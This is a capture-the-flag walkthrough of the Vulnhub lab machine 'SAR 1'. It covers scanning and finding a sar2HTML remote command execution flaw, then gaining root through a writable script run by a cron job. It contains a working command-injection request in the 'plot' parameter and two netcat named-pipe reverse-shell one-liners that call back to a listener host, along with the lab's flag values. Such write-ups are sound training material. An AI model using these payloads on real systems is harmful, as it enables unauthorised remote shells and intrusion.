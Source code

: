 Vulnhub - SAR 1

# Vulnhub - SAR 1

## Enumeration

- Using NMAP, found http application listening on 80/tcp

  ```
  # Nmap 7.80 scan initiated Sun Sep  6 20:28:40 2020 as: nmap -sC -sV -oA quick 192.168.112.35
  Nmap scan report for 192.168.112.35
  Host is up (0.17s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
  |   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
  |_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Sun Sep  6 20:29:16 2020 -- 1 IP address (1 host up) scanned in 35.65 seconds
  
  ```

- After running nikto, found one entry on **robots.txt** mentioning **sar2HTML**

  ```
  sar2HTML
  ```

## User Flag

- Checking the app on searchsploit found a RCE vulnerability for version 3.2.1, which is the same version currently running in this box, where would be possible get RCE from plot parameter

  ```
  └─$ searchsploit sar2html
  ----------------------------------------------------------------------------------- ---------------------------
   Exploit Title                                                                     |  Path
  ----------------------------------------------------------------------------------- ---------------------------
  Sar2HTML 3.2.1 - Remote Command Execution                                          | php/webapps/47204.txt
  ----------------------------------------------------------------------------------- ---------------------------
  Shellcodes: No Results
  
  ```

- Successfully obtained a reverse shell using the following request 

  ```
  GET /sar2HTML/index.php?plot=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.112+4443+>/tmp/f HTTP/1.1
  Host: 192.168.112.35
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: PHPSESSID=qp8ntm774js13nahouoon1kvdu
  Upgrade-Insecure-Requests: 1
  ```


- Enumerating readable files     under /home, found the list below, where the user flag was found:

  ```
  www-data@sar:/var/www$ find /home -type f -readable 2> /dev/null
  /home/local.txt
  /home/love/.sudo_as_admin_successful
  /home/love/.bashrc
  /home/love/.selected_editor
  /home/love/.bash_logout
  /home/love/.profile
  /home/love/Desktop/user.txt
  www-data@sar:/var/www$ cat /home/local.txt
  0462238a22547746e340454e9cdc041a
  ```

Root Flag:

- After running LinEnum.sh     identified that there was a cron running as root every 5 minutes, calling     a file ./finally under html folder, which invoke a ./write.sh file at the     same directory.

- Besides not having access on     this file it calls ./write.sh, which is writable.

- Appended the command line     below to write.sh to start a reverse shell to box as root

- - rm /tmp/g;mkfifo /tmp/g;cat      /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g

- After getting the shell, was     able to retrieve root flag under /root/root.txt containing the value:

  ```
  # ls -la
  total 40
  drwx------  5 root root 4096 Sep  8 05:11 .
  drwxr-xr-x 24 root root 4096 Mar 10 11:41 ..
  -rw-------  1 root root    0 Jul 24 20:39 .bash_history
  -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
  drwx------  2 root root 4096 Jul 14 22:02 .cache
  drwx------  3 root root 4096 Oct 20  2019 .gnupg
  drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
  -rw-r--r--  1 root root  148 Aug 17  2015 .profile
  -rw-r--r--  1 root root   33 Sep  8 05:12 proof.txt
  -rw-r--r--  1 root root   32 Jul 14 17:41 root.txt
  -rw-r-----  1 root root    5 Sep  8 05:25 .vboxclient-display-svga.pid
  # cat root.txt
  Your flag is in another file...
  # cat proof.txt
  6fe4f0598f601e515664cec37fa579b8
  # 
  
  ```

  

- - 66f93d6b2ca96c9ad78a8a9ba0008e99

 

 

 

 

 